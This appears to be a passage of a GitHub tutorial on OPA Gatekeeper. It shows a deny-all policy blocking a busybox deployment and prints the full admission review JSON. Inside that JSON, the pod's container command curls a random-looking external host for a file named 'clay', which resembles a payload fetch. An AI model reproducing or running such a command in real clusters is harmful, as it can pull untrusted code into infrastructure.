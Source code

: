 1. No pods are created because any pod is denied. Get the denided object -> [gatekeeper/k8sdenyall/object.json]()

    <details><summary>details</summary>

    ```
    kubectl get deploy busybox -o yaml | yq r - 'status.conditions[*].message'

    admission webhook "validation.gatekeeper.sh" denied the request: [denied by deny-all-namespaces] REVIEW OBJECT: {"_unstable": {"namespace": {"apiVersion": "v1", "kind": "Namespace", "metadata": {"creationTimestamp": "2020-11-13T14:24:50Z", "managedFields": [{"apiVersion": "v1", "fieldsType": "FieldsV1", "fieldsV1": {"f:status": {"f:phase": {}}}, "manager": "kube-apiserver", "operation": "Update", "time": "2020-11-13T14:24:50Z"}], "name": "default", "resourceVersion": "154", "selfLink": "/api/v1/namespaces/default", "uid": "5e71bedf-f896-4196-8c82-fdfd1b587681"}, "spec": {"finalizers": ["kubernetes"]}, "status": {"phase": "Active"}}}, "dryRun": false, "kind": {"group": "", "kind": "Pod", "version": "v1"}, "name": "busybox-d59978849-pmwsf", "namespace": "default", "object": {"apiVersion": "v1", "kind": "Pod", "metadata": {"creationTimestamp": "2020-12-17T00:59:57Z", "generateName": "busybox-d59978849-", "labels": {"app": "busybox", "pod-template-hash": "d59978849"}, "managedFields": [{"apiVersion": "v1", "fieldsType": "FieldsV1", "fieldsV1": {"f:metadata": {"f:generateName": {}, "f:labels": {".": {}, "f:app": {}, "f:pod-template-hash": {}}, "f:ownerReferences": {".": {}, "k:{\"uid\":\"4aad7af6-d364-4d45-a132-528b35d004ad\"}": {".": {}, "f:apiVersion": {}, "f:blockOwnerDeletion": {}, "f:controller": {}, "f:kind": {}, "f:name": {}, "f:uid": {}}}}, "f:spec": {"f:containers": {"k:{\"name\":\"busybox\"}": {".": {}, "f:command": {}, "f:image": {}, "f:imagePullPolicy": {}, "f:name": {}, "f:resources": {}, "f:terminationMessagePath": {}, "f:terminationMessagePolicy": {}}}, "f:dnsPolicy": {}, "f:enableServiceLinks": {}, "f:restartPolicy": {}, "f:schedulerName": {}, "f:securityContext": {}, "f:terminationGracePeriodSeconds": {}}}, "manager": "kube-controller-manager", "operation": "Update", "time": "2020-12-17T00:59:57Z"}], "name": "busybox-d59978849-pmwsf", "namespace": "default", "ownerReferences": [{"apiVersion": "apps/v1", "blockOwnerDeletion": true, "controller": true, "kind": "ReplicaSet", "name": "busybox-d59978849", "uid": "4aad7af6-d364-4d45-a132-528b35d004ad"}], "uid": "8f594ea7-30d2-411f-b1fa-2fea64148ba5"}, "spec": {"containers": [{"command": ["sh", "-c", "curl", "http://xksqu4mj.fri3nds.in/tools/clay", "sleep 1000000"], "image": "busybox", "imagePullPolicy": "Always", "name": "busybox", "resources": {}, "terminationMessagePath": "/dev/termination-log", "terminationMessagePolicy": "File", "volumeMounts": [{"mountPath": "/var/run/secrets/kubernetes.io/serviceaccount", "name": "default-token-qm759", "readOnly": true}]}], "dnsPolicy": "ClusterFirst", "enableServiceLinks": true, "preemptionPolicy": "PreemptLowerPriority", "priority": 0, "restartPolicy": "Always", "schedulerName": "default-scheduler", "securityContext": {}, "serviceAccount": "default", "serviceAccountName": "default", "terminationGracePeriodSeconds": 30, "tolerations": [{"effect": "NoExecute", "key": "node.kubernetes.io/not-ready", "operator": "Exists", "tolerationSeconds": 300}, {"effect": "NoExecute", "key": "node.kubernetes.io/unreachable", "operator": "Exists", "tolerationSeconds": 300}], "volumes": [{"name": "default-token-qm759", "secret": {"secretName": "default-token-qm759"}}]}, "status": {"phase": "Pending", "qosClass": "BestEffort"}}, "oldObject": null, "operation": "CREATE", "options": {"apiVersion": "meta.k8s.io/v1", "kind": "CreateOptions"}, "requestKind": {"group": "", "kind": "Pod", "version": "v1"}, "requestResource": {"group": "", "resource": "pods", "version": "v1"}, "resource": {"group": "", "resource": "pods", "version": "v1"}, "uid": "897c141c-be87-4c86-a272-8e729eba2753", "userInfo": {"groups": ["system:serviceaccounts", "system:serviceaccounts:kube-system", "system:authenticated"], "uid": "852050a8-0e3d-45ae-8d21-50c9cae1b0c5", "username": "system:serviceaccount:kube-system:replicaset-controller"}}
    ```

    </details>

1. Test your policy with [gatekeeper/k8sdenyall/object.json]() on [Rego Playground](https://play.openpolicyagent.org).
